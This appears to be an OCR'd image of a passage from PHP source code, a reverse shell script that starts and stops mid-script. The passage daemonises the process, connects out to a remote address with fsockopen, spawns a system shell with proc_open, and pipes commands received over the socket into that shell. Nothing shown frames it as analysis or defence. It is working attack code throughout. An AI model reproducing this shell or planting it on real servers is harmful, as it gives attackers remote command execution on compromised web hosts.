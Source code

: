 ```php
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }
    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise. This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

function printit($string) {
    if (!$daemon) {
        print "$string\n";
    }
}

while (1) {
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }

    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }

```